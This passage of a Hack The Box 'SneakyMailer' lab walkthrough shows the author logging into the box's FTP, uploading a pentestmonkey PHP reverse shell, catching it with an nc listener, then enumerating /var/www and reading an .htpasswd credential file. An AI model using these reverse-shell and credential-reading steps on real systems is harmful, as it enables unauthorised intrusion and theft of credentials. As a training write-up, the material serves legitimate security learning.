 ### 8. Get a shell
I attempt to upload a PHP reverse shell to the FTP, which I can then access to send the shell to my machine. Firstly listen on a port:
```bash
kali@kali:~$ nc -lvp 9999
Listening on 0.0.0.0 9999
```
Then grab the pentestmonkey reverse shell, modify it as needed and upload:
```bash
kali@kali:~/Desktop/htb/sneakymailer$ ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:kali): developer
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd dev
250 Directory successfully changed.
ftp> put info.php
local: info.php remote: info.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (41.5832 MB/s)
```
Then accessing the file at dev.sneakycorp.htb/info.php triggers the shell.
```bash
kali@kali:~$ nc -lvp 9999
Listening on 0.0.0.0 9999
Connection received on sneakycorp.htb 54328
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 07:08:25 up  1:25,  0 users,  load average: 0.03, 0.06, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### 9. Enumerate www-data
First thing I do as www-data is check out the stuff in /var/www.
```bash
www-data@sneakymailer:~$ ls
ls
dev.sneakycorp.htb  html  pypi.sneakycorp.htb  sneakycorp.htb
www-data@sneakymailer:~$ cd pypi.sneakycorp.htb
cd pypi.sneakycorp.htb
www-data@sneakymailer:~/pypi.sneakycorp.htb$ ls
ls
packages  venv
www-data@sneakymailer:~/pypi.sneakycorp.htb$ cd packages
cd packages
bash: cd: packages: Permission denied
www-data@sneakymailer:~/pypi.sneakycorp.htb$ ls -la
ls -la
total 20
drwxr-xr-x 4 root root     4096 May 15 14:29 .
drwxr-xr-x 6 root root     4096 May 14 18:25 ..
-rw-r--r-- 1 root root       43 May 15 14:29 .htpasswd
drwxrwx--- 2 root pypi-pkg 4096 Jul 20 06:17 packages
drwxr-xr-x 6 root pypi     4096 May 14 18:25 venv
www-data@sneakymailer:~/pypi.sneakycorp.htb$ cat .htpasswd
```